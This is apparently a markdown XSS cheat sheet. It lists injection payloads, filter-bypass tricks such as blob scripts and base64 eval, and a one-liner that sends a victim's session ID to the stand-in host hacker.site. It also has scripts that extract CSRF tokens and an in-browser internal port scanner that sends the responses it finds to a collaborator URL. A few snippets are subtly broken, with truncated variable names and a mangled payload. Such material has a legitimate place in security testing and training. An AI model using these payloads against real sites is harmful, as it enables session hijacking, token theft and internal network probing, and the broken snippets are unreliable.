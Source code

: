 # XSS
## Payloads
```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
<iframe src='jAvAsCripT:alert`1`'></iframe>
'"><img/src/onerror=alert(1)> 
<table><td onfocus=alert(1) autofocus tabindex=1>
<table><td><img/src/onerror=alert(1)>
```

## Filter Bypass
### Create Blob and use the blob as source
- Create a blob using
	```js
	var b=new Blob(['alert(document.domain)']); var s = document.createElement('script'); s.src = URL.createObjectURL(b); document.head.appendChild(s);
	```
### Base64 into Eval
```html
<img src=x o<scriptnerror=javajavascript:script:eval(atob('%s'))>
```
## Extract Session Data
```js
new Image().src ="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
```

> Despite `document.cookie`, the attacker needs to be more precise because the name of the key used to store the session ID may change

## Scripts
### Extract CSRF Token from XSS in same page
Using XHR
```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == 4) {
var htmlSource = xhr.responseText;
//some operations…
}
}
xhr.open('GET','http://victim.site/csrf-form-page.html', true);
xhr.send();
```
Using JQuery
```js
Req= jQuery.get('http://victim.site/csrf-form-page.html', 
function() {
var htmlSource = jReq.responseText;
//some operations…
});
```
Using DOM
```js
var token = document.getElementsByName('csrf_token')[0].value
```
### Extract CSRF Token from XSS in different page
Using regex
```js
attern = /csrf_token'\svalue='(.*)'/;
token = htmlSource.match(pattern)[1]
```
Using DOM Parser
```js
parser = new DOMParser().parseFromString(htmlSource,"text/html");
token = parser.getElementsByName('csrf_token')[0];
```

### Internal Network Port Scanner 
```js
<script>
var q = [], collaboratorURL = 'http://ac3b1fe21fddcea0802d5e8a01780096.web-security-academy.net/exploit';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script> 
```
## Write-ups
- [Intigriti — XSS Challenge 0621. XSS via WebAssembly | by FHantke | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/intigriti-xss-challenge-0621-cf76c28840c1
## Techniques
- [Blind CSS Exfiltration: exfiltrate unknown web pages | PortSwigger Research](https://portswigger.net/research/blind-css-exfiltration)
